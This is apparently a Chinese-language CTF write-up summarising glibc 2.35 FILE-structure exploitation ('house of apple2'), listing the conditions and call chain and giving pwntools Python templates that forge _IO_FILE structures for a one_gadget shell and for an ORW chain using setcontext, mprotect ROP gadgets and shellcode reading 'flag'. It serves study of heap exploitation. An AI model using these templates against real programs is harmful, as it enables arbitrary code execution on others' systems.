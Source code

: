 libc2.35时代IO利用模板总结
==================

文章中的利用方法主要针对libc2.35，高版本可做适当修改利用。话不多说，直接开始。

house of apple系列
----------------

libc2.35后的IO利用最知名的就是house of apple了，一共三个系列文章，是[roderick师傅](https://www.roderickchan.cn/zh-cn/)发现并广泛利用。

### house of apple2

基于**IO\_FILE-&gt;\_wide\_data**的利用技巧  
条件：

- 已知**heap**地址和**libc**地址
- 能控制程序**执行IO**操作，包括但不限于：从**main**函数返回、调用**exit**函数、通过`__malloc_assert`触发
- 能控制**vtable**和`_wide_data`，一般使用**largebin attack**去控制  
    利用`_IO_wfile_overflow`函数控制程序执行流：  
    调用链：**\_IO\_wfile\_overflow** -&gt; **\_IO\_wdoallocbuf** -&gt; **\_IO\_WDOALLOCATE**  
    **getshell模板**
    
    ```python
    def house_of_apple2(fake_IO_file_addr):
    fake_IO_file = flat(
        {
            0x18: 1,    # _IO_write_ptr
            0x58: one_gadget,   # chain
            0x78: _IO_stdfile_2_lock,   # _lock
            0x90: fake_IO_file_addr,    # _IO_wide_data
            0xc8: _IO_wfile_jumps,  # vtable
            0xd0: fake_IO_file_addr,    # fake wide vtable
        }, filler='\x00'
    )
    
    return fake_IO_file
    ```

**ORW模板**

```python
def house_of_apple2(fake_IO_file_addr):
    fake_IO_file = flat(
        {
            0x18: 1,    # _IO_write_ptr
            0x58: setcontext + 61,   # chain
            0x78: _IO_stdfile_2_lock,   # _lock
            0x90: fake_IO_file_addr + 0x100,    # _IO_wide_data
            0xc8: _IO_wfile_jumps,  # vtable
            0xf0: {
                0xa0: [fake_IO_file_addr + 0x200, ret],
                0xe0: fake_IO_file_addr
            },
            0x1f0: [
                pop_rdi_ret, fake_IO_file_addr >> 12 << 12,
                pop_rsi_ret, 0x2000,
                pop_rdx_rbx_ret, 7, 0,
                pop_rax_ret, 10,    # mprotect
                syscall_ret,
                fake_IO_file_addr + 0x290
            ],
            0x280: asm(shellcraft.cat('flag'))

        }, filler='\x00'
    )
    payload = fake_IO_file
```